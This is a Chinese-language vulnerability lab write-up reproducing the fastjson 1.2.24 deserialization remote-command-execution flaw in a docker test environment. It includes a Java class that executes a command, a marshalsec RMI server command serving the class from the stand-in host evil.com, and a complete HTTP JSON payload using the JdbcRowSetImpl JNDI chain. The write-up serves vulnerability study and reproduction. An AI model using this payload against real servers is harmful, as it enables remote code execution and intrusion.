

# fastjson 1.2.24 反序列化导致任意命令执行漏洞

fastjson在解析json的过程中，支持使用autoType来实例化某一个具体的类，并调用该类的set/get方法来访问属性。通过查找代码中相关的方法，即可构造出一些恶意利用链。

参考资料：

- https://www.freebuf.com/vuls/208339.html
- http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90/

## 漏洞环境

运行测试环境：

```
docker-compose up -d
```

环境运行后，访问`http://your-ip:8090`即可看到JSON格式的输出。

我们向这个地址POST一个JSON对象，即可更新服务端的信息：

```
curl http://your-ip:8090/ -H "Content-Type: application/json" --data '{"name":"hello", "age":20}'
```

## 漏洞复现

因为目标环境是Java 8u102，没有`com.sun.jndi.rmi.object.trustURLCodebase`的限制，我们可以使用`com.sun.rowset.JdbcRowSetImpl`的利用链，借助JNDI注入来执行命令。

首先编译并上传命令执行代码，如`http://evil.com/TouchFile.class`：

```java
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

然后我们借助[marshalsec](https://github.com/mbechler/marshalsec)项目，启动一个RMI服务器，监听9999端口，并制定加载远程类`TouchFile.class`：

```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://evil.com/#TouchFile" 9999
```

向靶场服务器发送Payload，带上RMI的地址：

```
POST / HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 160

{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://evil.com:9999/TouchFile",
        "autoCommit":true
    }
}
```

可见，命令`touch /tmp/success`已成功执行：


